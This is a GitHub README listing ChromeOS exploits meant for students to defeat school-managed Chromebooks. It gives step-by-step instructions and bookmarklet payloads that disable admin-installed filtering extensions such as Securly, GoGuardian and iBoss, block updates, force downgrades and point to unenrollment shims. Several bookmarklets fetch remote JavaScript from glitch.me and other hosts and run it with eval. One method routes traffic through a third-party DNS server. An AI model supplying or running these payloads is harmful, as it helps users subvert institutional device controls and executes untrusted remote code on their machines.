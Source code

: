 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permisson, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>New Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Point Blank</b> Run code on system pages</summary>

Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

**This was discoverered by zoroark**

</details>

boop

